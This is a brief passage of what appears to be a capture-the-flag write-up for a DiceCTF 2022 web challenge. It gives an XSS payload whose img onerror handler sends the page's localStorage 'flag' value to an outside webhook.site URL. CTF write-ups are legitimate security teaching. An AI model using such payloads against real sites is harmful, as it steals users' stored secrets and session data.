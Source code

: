     <img src="/images/writeups/DiceCTF2022/Web/2_01.png" width="70%"/>
</p>

Now moving into crafting a payload. We have to steal the flag value from localstorage with a payload like this:

```html
https://blazingfast.mc.ax/?demo=.....<img src=x onerror="location.href='https://webhook.site/9ed73e58-c688-47c5-9ec8-826693de1421?c='+localStorage.getItem('flag')">
```
